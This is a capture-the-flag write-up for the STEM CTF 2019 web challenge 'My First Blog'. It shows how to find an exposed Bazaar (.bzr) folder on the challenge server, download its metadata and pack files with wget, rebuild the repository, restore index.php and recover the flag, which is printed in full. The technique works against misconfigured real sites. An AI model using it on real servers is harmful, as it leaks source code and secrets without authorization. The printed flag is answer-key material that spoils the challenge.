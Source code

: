 # STEM CTF Cyber Challenge 2019 – My First Blog

* **Category:** Web
* **Points:** 150

## Challenge

> I wish canonical would release a blog platform, they make everything so easy to use and it just works!
> 
> http://138.247.13.106/

## Solution

The owner of the blog is a fan of Canonical and its products. As you can see in the blog, he is fan of [Bazaar](http://bazaar.canonical.com/en/), the version control system of Canonical.

Trying to connect to `http://138.247.13.106/.bzr/` will give an `HTTP 403 Forbidden` error, so the folder should exist.

Connecting to `http://138.247.13.106/.bzr/README` will reveal the existence of a Bazaar repository folder.

Furthermore, connecting to `http://138.247.13.106/.bzr/branch/last-revision`, will reveal the last revision.

```
1 bzr_lover-20181206184825-790ppqxy6l69f581
```

So Bazaar must be installed and a `bzr` repostitory must be created in order to craft the `.bzr` directory and then recreate the website files.

```
$ mkdir ctf-bzr
$ cd ctf-bzr/
$ bzr init
$ echo 'foo' > foo.txt
$ bzr add
$ bzr commit
$ rm foo.txt
```

The `last-revision` can be downloaded to replace the existing one.

```
$ cd .bzr/branch
$ rm last-revision
$ wget http://138.247.13.106/.bzr/branch/last-revision
```

The `dirstate` file can be downloaded to replace the existing one.

```
$ cd ../checkout
$ rm dirstate
$ wget http://138.247.13.106/.bzr/checkout/dirstate
```

The `pack-names` file can be downloaded replacing the existing one.

```
$ cd ../repository
$ rm pack-names
$ wget http://138.247.13.106/.bzr/repository/pack-names
```

Using `bzr check` command will trigger an error that will reveal the name of the missing files.

```
$ cd ../../
$ bzr check
```

The name is: `ctf-bzr/.bzr/repository/indices/c325a543411b3717bd63b6cc879e3d50.rix`, so all missing files can be downloaded.

```
$ cd .bzr/repository/indices/
$ rm *.*
$ wget http://138.247.13.106/.bzr/repository/indices/c325a543411b3717bd63b6cc879e3d50.rix
$ wget http://138.247.13.106/.bzr/repository/indices/c325a543411b3717bd63b6cc879e3d50.cix
$ wget http://138.247.13.106/.bzr/repository/indices/c325a543411b3717bd63b6cc879e3d50.iix
$ wget http://138.247.13.106/.bzr/repository/indices/c325a543411b3717bd63b6cc879e3d50.six
$ wget http://138.247.13.106/.bzr/repository/indices/c325a543411b3717bd63b6cc879e3d50.tix
$ cd ../packs
$ rm *.pack
$ wget http://138.247.13.106/.bzr/repository/packs/c325a543411b3717bd63b6cc879e3d50.pack
```

Then the status of the repo could be checked.

```
$ bzr status
removed:
  index.php
```

The command `bzr revert` will recreate the file.

```php
<html>
    <head>
        <title>My Blog</title>
        <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" 
crossorigin="anonymous">
    </head>
    <body>

        <div class="container">
        <div class="jumbotron">
            <h1 class="display-4">My Blog</h1>
            <p class="lead">Just a spot for me to talk about how much I love Canonical</p>
        </div>
            <h1>I love Canonical</h1>
            <p>As someone who is just getting started with Linux, I love Canonical. They build the easiest to use Linux distribution I can find, and they build so many useful tools. So far I'v
e tried out</p>
            <ul>
                <li>Juju - The worlds best configuration management tool!</li>
                <li>Bazaar - The worlds best version control!</li>
                <li>Ubuntu - The worlds best OS!</li>
                <li>Launchpad - GitHub? Gross!</li>
            </ul>
            <hr>
            <h1>Learning PHP</h1>
            <p>I recently learned about PHP and I can't stop switching everything over to it. In fact, this blog is now powered by PHP, I think! I changed the file extension at least, and adde
d a little PHP code below here. That should pretty much do it right? I have the PHP code commented out for now since I can't seem to get it to work right. I'll have to look into it later.</p>
            <?php
                // Flag is MCA{canonical_is_literally_my_favorite_company_in_the_whole_world}
            ?>
        </div>
    </body>
</html>
```

It will contain the flag.

```
MCA{canonical_is_literally_my_favorite_company_in_the_whole_world}
```